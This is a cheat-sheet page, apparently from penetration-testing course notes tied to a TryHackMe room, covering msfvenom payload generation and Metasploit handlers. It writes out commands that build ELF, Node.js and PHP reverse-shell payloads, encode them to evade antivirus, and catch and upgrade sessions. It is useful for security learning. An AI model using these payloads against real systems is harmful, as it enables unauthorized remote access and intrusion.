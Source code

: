 # 🐍 msfvenom 🐍

[![metasploitexploitation](../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit below
$ msfvenom --list payloads | grep meterpreter
```

Selecting a payload can be a thorough process, as this choice is determined by the operating system, the firewall, the antivirus, the program available to execute the reverse shell (php, python...), the kind of connection allowed...

</div><div>

There are two categories of payloads: **single/inline**, and **staged** payloads. The main difference is that staged payloads are sent in two steps. First, a simple payload (called stager) is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 📝 Common options 📝

<div class="row row-cols-md-2"><div>

The first parameter is `-p` which define the kind of reverse shell you want.

```bash
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

You need to provide information that the machine will use to connect back: `LHOST` <small>(you IP address, or `tun0` if using a VPN)</small>, and `LPORT` <small>(you local port)</small>.

```bash
$ msfvenom [...] LHOST=tun0 LPORT=4444 [...]
```
</div><div>

You will want to either generate an executable (.exe, .elf...) or generate some raw code (php, js...). You can do that with `-f`.

```bash
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for RAW
```
</div></div>

<hr class="sep-both">

## 👻 Antivirus and firewall evasion 👻

<div class="row row-cols-md-2"><div>

You can encode the payload, to make it harder to detect, or smaller/...

```bash
$ msfvenom [...] -e php/base64
```
</div><div>

You can use [web delivery](https://www.offensive-security.com/metasploit-unleashed/web-delivery/). For instance, if you want to open a reverse shell on a host in which you got a powershell

* set the target: powershell
* set other options <small>(LHOST...)</small>
* run
* paste the code prompted in the terminal
* done
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very instable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<hr class="sep-both">

## 🕸️ Catch reverse shells with Metasploit 🕸️

<div class="row row-cols-md-2"><div>

You can use the metasploit console to catch a reverse shell, which may or may not be a reverse shell. You can then upgrade it to a meterpreter shell, and use a lot of commands/... provided by the framework.

```bash
$ msfconsole -q
msf6 > use multi/handler
msf6 exploit('multi/handler') > setg LHOST tun0
msf6 exploit('multi/handler') > setg LPORT 4444
# for instance, to catch a php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > set PAYLOAD php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > run
# then wait for a connection
# then you meterpreter will pop
meterpreter> help # see what you can do
# refer to the metasploit course
```
</div><div>

If you are using this with a non-meterpreter bind/reverse shell

```bash
# run the exploit as a job (in the background)
msf6 exploit('multi/handler') > run -j
[XXX Session 1 XXX]
# upgrade session 1 to a meterpreter
msf6 exploit('multi/handler') > sessions -u 1
[XXX Session 2 XXX]
# move to the upgraded meterpreter
msf6 exploit('multi/handler') > sessions -i 2
meterpreter> help
```
</div></div>